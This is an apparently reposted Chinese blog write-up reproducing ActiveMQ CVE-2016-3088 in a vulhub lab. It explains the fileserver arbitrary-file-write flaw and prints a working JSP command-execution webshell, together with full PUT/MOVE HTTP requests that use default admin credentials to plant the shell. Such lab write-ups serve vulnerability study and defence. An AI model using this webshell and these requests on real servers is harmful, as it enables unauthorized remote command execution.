




# CVE-2016-3088 - 七先生 - 博客园

> 原文：[`www.cnblogs.com/Qixiansheng/p/15471612.html`](https://www.cnblogs.com/Qixiansheng/p/15471612.html)

# ActiveMQ CVE-2016-3088 漏洞复现

## 0\. 环境搭建

0.  安装 docker：

    ```
    curl -s https://get.docker.com/ | sh 
    ```

1.  搭建 vulhub，使用 wget 下载 vulhub：

    ```
    wget https://github.com/vulhub/vulhub/archive/master.zip -O vulhub-master.zip 
    ```

    解压：

    ```
    unzip vulhub-master.zip 
    ```

    进入漏洞环境：

    ```
    cd /tools/range/activemq/CVE-2015-5254 
    ```

    启动环境：

    ```
    docker-compose up -d 
    ```

## 1\. 漏洞原理

​ **ActiveMQ Web 控制台分为三个应用程序：admin，api 和 fileserver，其中 admin 是管理员页面，api 是界面，fileserver 是用于存储文件的界面；admin 和 api 需要先登录才能使用，fileserver 不需要登录。**

​ 文件服务器是 RESTful API 接口。我们可以通过 HTTP 请求（例如 GET，PUT 和 DELETE）读写存储在其中的文件。设计目的是为了弥补消息队列操作无法传输和存储二进制文件但后来发现的缺陷：

1.  使用率不高
2.  文件操作容易产生漏洞

​ 此漏洞出现在 Fileserver 应用程序中，该漏洞的原理实际上非常简单，即文件服务器支持写入文件（但不解析 JSP），同时支持移动文件（MOVE 请求）。因此，我们只需要编写一个文件，然后使用移动请求将其移动到任何位置，就会导致任意文件写入漏洞。

写入文件，例如 cron 或 ssh key

1.  编写 Webshell
2.  写入文件，例如 cron 或 ssh key
3.  编写库和配置文件，例如 jar 或 jetty.xml

​ ** 编写 Webshell 的优点是方便，但是文件服务器不需要解析 jsp，admin 和 api 都需要登录才能访问，因此利用难度较高。编写 cron 或 ssh 键的优点是直接反转 Shell，这也很方便，缺点是您需要 root 权限；写 jar，有点麻烦（需要 jar 后门），写 xml 配置文件，这种方法比较可靠，但是有一点难度：我们需要知道 ActiveMQ 的绝对路径。**



## 2\. 漏洞复现

1.  利用 put 方法写入文件到 fileserver 下，且不能写 jsp 文件：

```
<%@ page import="java.io.*" %>
<%
try {
String cmd = request.getParameter("cmd");
Process child = Runtime.getRuntime().exec(cmd);
InputStream in = child.getInputStream();
int c;
while ((c = in.read()) != -1) {
out.print((char)c);
}
in.close();
try {
child.waitFor();
} catch (InterruptedException e) {
e.printStackTrace();
}
} catch (IOException e) {
System.err.println(e);
}
%> 
```



2.  MOVE 移动 webshell 到可解析目录 api 下，admin 目录也行，没什么区别，反正都要密码，返回 204 即成功；需要知道绝对路径，如果知道密码，能够/admin/test/systemProperties.jsp 该文件下的 activemq.home 得到绝对路径，

```
MOVE /fileserver/viru.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/s.jsp
Host: 192.168.13.132:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: JSESSIONID=wlanihin610ddhz7mw0olmme
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Cache-Control: max-age=0 
```



3.  访问/api/目录能够看到上传的小马：



4.执行命令


* * *

以上为漏洞复现的整个过程，以下为在复现中遇到的问题：

### MOVE 移动文件时移动不了，不返回数据包

使用以下的数据包时，不返回数据包：

```
MOVE /fileserver/viru.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/s1.jsp
Host: 192.168.13.132:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: JSESSIONID=wlanihin610ddhz7mw0olmme
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Cache-Control: max-age=0
Content-Length: 4 
```

解决方法：

在数据包最后加一串字符串，像是这样：

```
MOVE /fileserver/viru.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/s1.jsp
Host: 192.168.13.132:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: JSESSIONID=wlanihin610ddhz7mw0olmme
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Cache-Control: max-age=0
Content-Length: 4

test 
```

### 总结

该漏洞利用难度较高，且 fileserver 功能在 ActiveMQ 的 5.14.0 版本及其以后已经移除，可能碰到的情况较少。

碰到后需要一点运气，如果能碰到存在默认密码、使用默认路径或者权限是 root 权限的话，就能够利用。